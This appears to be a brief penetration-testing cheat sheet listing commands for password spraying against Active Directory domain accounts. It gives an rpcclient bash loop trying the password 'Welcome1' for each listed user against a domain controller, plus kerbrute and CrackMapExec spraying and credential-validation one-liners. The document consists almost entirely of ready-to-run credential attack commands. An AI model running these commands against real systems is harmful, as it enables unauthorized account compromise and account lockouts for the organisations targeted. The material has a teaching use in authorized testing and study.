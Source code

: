 
1. Using Rpcclient for Password Spraying
	```bash
	for u in $(cat valid_users.txt); do 
		rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; 
	done
	```

2. Using Kerbrute for Password Spraying
	 `kerbrute passwordspray -d example.local --dc [IP_ADDRESS] valid_users.txt [PASSWORD]`

3. Using CrackMapExec for Password Spraying
	`sudo crackmapexec smb [IP_ADDRESS] -u valid_users.txt -p [PASSWORD] | grep +`
	

4. Validating Credentials with CrackMapExec
	`sudo crackmapexec smb [IP_ADDRESS] -u [USERNAME] -p [PASSWORD]`